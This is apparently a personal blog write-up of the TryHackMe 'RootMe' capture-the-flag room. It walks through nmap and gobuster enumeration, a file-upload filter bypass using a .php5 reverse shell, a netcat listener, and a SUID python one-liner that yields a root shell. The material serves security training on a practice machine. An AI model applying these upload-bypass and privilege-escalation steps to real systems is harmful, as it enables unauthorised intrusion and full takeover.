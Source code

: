 ```yaml
---
title: "RootMe"
date: 2025-01-27
draft: false
Tags:
- Tryhackme
---
```

![alt text](image-1.png)
 in this challenge we have to perform enumeration to get shell and escalate the root privilege.let's deploy the machine.

I started network scanning with nmap to see what services are running on the machine.i used 
``nmap -sVC <ipaddress> > nmapscan.txt`` command to write the output in nmapscan.txt file for safety of information.

this is what i got in nmap scan :

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 14:30 +0545
Nmap scan report for 10.10.24.36
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.13 seconds

```
We can see two ports, port 22 and port 80 are running ssh and http services respectively. I visit on port 80 to see what's running on the web server.

![alt text](image-2.png)

second step , we are going to use gobuster for the directory busting to find the directories on the web server.
```
┌──(cybercena㉿astra)-[~/tryhackme/rootme]
└─$ gobuster dir -u http://10.10.107.17:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.107.17:80
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.107.17/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.107.17/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.107.17/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.107.17/panel/]

```
i visit the ``/panel`` directory and got the file uploading options.
![alt text](image-3.png)

i try to upload the php PentestMonkey reverse shell payload from ``revshells.com`` but the site doesn't allow the file with ``.php`` so i change file extension to ``.php5`` and it allow me to upload it.
![alt text](image-5.png)
after successfull upload of the payload i run netcat on my machine to listen the shell using ``nc -lnvp 1234``.

![alt text](image-6.png)
![alt text](image-7.png)
after uploading ``rev.php5`` payload and listen using netcat on my machine i visit ``/uploads/rev.php5`` i got the shell.let's have a linux tour now.
![alt text](image-8.png)

we have to find ``user.txt`` file but we don't know where it locate so i tried `` find / - type f -name user.txt`` and got the user.txt file inside ``/var/www/``.
![alt text](image-9.png)
i read the user.txt file using ``cat /var/www/user.txt`` and got the user flag.
![alt text](image-10.png)

now we have to escalate the root privilege.even the question have suggest us to search for files with SUID permission.``find / -type f -user root -perm -4000 2>/dev/null`` commands helps us to find it. 
![alt text](image-11.png)
we can use python for pri-esc let's visit https://gtfobins.github.io/ and search python we can see the functions that python can run.
![alt text](image-12.png)

lets paste this command into the shell and run it. we got the root shell.
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
we got the shell lets check the username using ``whomai`` command.
![alt text](image-13.png)
now we are root and the flag lies in ``/root/root.txt``
![alt text](image-14.png)

[Note : other small questions can be answered using the scan result of nmap and gobuster that we have done before]